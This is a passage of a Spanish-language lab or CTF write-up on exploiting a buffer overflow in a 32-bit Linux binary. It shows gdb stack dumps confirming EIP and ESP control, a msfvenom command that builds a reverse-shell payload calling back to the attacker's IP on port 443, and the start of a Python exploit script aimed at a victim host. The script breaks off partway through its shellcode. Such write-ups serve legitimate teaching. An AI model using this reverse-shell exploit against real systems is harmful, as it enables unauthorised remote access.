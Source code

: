 Puedes ver que el **ESP** (el inicio de la pila) igual ya tiene las **C's**, lo que quiere decir que aquí es donde podemos meter el **Shellcode**.

Además, podemos inspeccionar el **ESP** desde **gdb** para comprobar lo del **ESP**:
```bash
gef➤  x/35wx $esp-5
0xffffcc2b:     0x42424241      0x43434342      0x43434343      0x43434343
0xffffcc3b:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffcc4b:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffcc5b:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffcc6b:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffcc7b:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffcc8b:     0x43434343      0x43434343      0x00000a43      0x00000000
0xffffcc9b:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffccab:     0x6c655700      0x656d6f63      0x206f7420
```
Con esto comprobamos que el **EIP** empieza con las **B's** y luego comienza el **ESP** que vale las **C's**.

<br>

<h3 id="shellcodeExploit">Séptimo Paso: Creación de Shellcode y Creación de Exploit</h3>

Vamos muy bien, ahora podemos comenzar a crear nuestro Exploit en **Python**.

Primero crearemos el **Shellcode** que será una **Reverse Shell** con **msfvenom**.

Puedes crearlo para probarlo contra tu máquina o de una vez hacerlo para atacar el binario de la máquina víctima, pero en mi caso, lo haré para mi máquina:
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=Tu_IP LPORT=443 -b "\x00" -f py -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of py file: 550 bytes
shellcode =  b""
shellcode += b"\xdb\...
...
...
```
Le indicamos a **msfvenom** lo siguiente:
* Crear una **Reverse Shell** para **arquitectura x86**.
* Mi IP y un puerto al que será dirigido.
* Que elimine el **byte nulo (\x00)**, ya que puede darnos conflicto con el binario, pues esta hecho con **lenguaje C**.
* Crear el formato del payload en **Python**
* Especificamos el nombre de la variable que almacena el payload como **Shellcode**.

Ahora, empezamos a crear nuestro Exploit con **Python**, siendo muy similar al script **spiker.py**:
```python
#!/usr/bin/python3

import socket

# Variables globales
ip_addr = "127.0.0.1 o VíctimaIP"
port = 9898
offset = 112
before_eip = b"A"*offset
eip = b"B"*4

shellcode =  b""
shellcode += b"\xdb\xda\xbd\xba\xee\x62\x1...
```